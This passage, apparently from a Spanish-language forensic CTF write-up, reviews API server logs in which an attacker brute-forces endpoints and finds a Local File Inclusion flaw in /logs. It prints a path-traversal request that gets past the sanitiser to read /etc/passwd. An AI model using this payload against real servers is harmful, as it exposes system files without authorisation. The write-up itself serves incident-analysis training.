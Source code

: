 **task 10**

Tras el escaneo de puertos, el atacante inicia un ataque de fuerza bruta para encontrar algunos endpoints vulnerables en la API previamente identificada. ¿Qué endpoint vulnerable se ha encontrado?


Si seguimos explorando los logs, podremos ver lo siguiente:

```bash 
219 2025-04-01 11:38:50 [VERBOSE] Incoming request: GET /reports from ::ffff:127.0.0.1
220 2025-04-01 11:38:50 [VERBOSE] Request headers: {"host":"127.0.0.1:4000","user-agent":"curl/7.88.1","accept":"*/*"}
221 2025-04-01 11:38:51 [VERBOSE] Incoming request: GET /metrics from ::ffff:127.0.0.1
222 2025-04-01 11:38:51 [VERBOSE] Request headers: {"host":"127.0.0.1:4000","user-agent":"curl/7.88.1","accept":"*/*"}
223 2025-04-01 11:38:51 [VERBOSE] Incoming request: GET /version from ::ffff:127.0.0.1
224 2025-04-01 11:38:51 [VERBOSE] Request headers: {"host":"127.0.0.1:4000","user-agent":"curl/7.88.1","accept":"*/*"}
225 2025-04-01 11:38:52 [VERBOSE] Incoming request: GET /docs from ::ffff:127.0.0.1
226 2025-04-01 11:38:52 [VERBOSE] Request headers: {"host":"127.0.0.1:4000","user-agent":"curl/7.88.1","accept":"*/*"}
```

El atacante intetó leer otras rutas de la web, ya que probrablemente /analytics no es un endopint vulnerable ni que guarde infromación relevante, así que continuó con el ataque hasta que encuentra que la ruta <p style="color: #00ff00;">/logs</p> es vulnerable a un `Local File Inclusion (LFI)`, una vulnerabilidad web que permite a un atacante incluir y leer archivos locales del servidor a través de parámetros manipulables en una URL.

```bash
227 2025-04-01 11:38:52 [VERBOSE] Incoming request: GET /logs from ::ffff:127.0.0.1
228 2025-04-01 11:38:52 [VERBOSE] Request headers: {"host":"127.0.0.1:4000","user-agent":"curl/7.88.1","accept":"*/*"}
229 2025-04-01 11:38:52 [VERBOSE] Received GET /logs request from ::ffff:127.0.0.1
230 2025-04-01 11:38:52 [VERBOSE] Requested log file: /var/log/logfile.txt
231 2025-04-01 11:38:52 [VERBOSE] Sanitized log file path: /var/log/logfile.txt
232 2025-04-01 11:38:52 [VERBOSE] Reading log file: /var/log/logfile.txt
233 2025-04-01 11:38:52 [VERBOSE] Log file read successfully.
234 2025-04-01 11:38:52 [VERBOSE] Log file contains 3 lines.
235 2025-04-01 11:38:52 [VERBOSE] Parsed 2 valid log entries.
236 2025-04-01 11:38:52 [VERBOSE] Sending log data response...
237 2025-04-01 11:39:01 [VERBOSE] Incoming request: GET /logs?logFile=/var/log/../.../...//../.../...//etc/passwd from ::ffff:127.0.0.1
238 2025-04-01 11:39:01 [VERBOSE] Request headers: {"host":"127.0.0.1:4000","user-agent":"curl/7.88.1","accept":"*/*"}
239 2025-04-01 11:39:01 [VERBOSE] Received GET /logs request from ::ffff:127.0.0.1
240 2025-04-01 11:39:01 [VERBOSE] Requested log file: /var/log/../.../...//../.../...//etc/passwd
241 2025-04-01 11:39:01 [VERBOSE] Sanitized log file path: /var/log/../../etc/passwd
242 2025-04-01 11:39:01 [VERBOSE] Reading log file: /var/log/../../etc/passwd
243 2025-04-01 11:39:01 [VERBOSE] Log file read successfully.
244 2025-04-01 11:39:01 [VERBOSE] Log file contains 20 lines.
```

--- 
**task 11** 
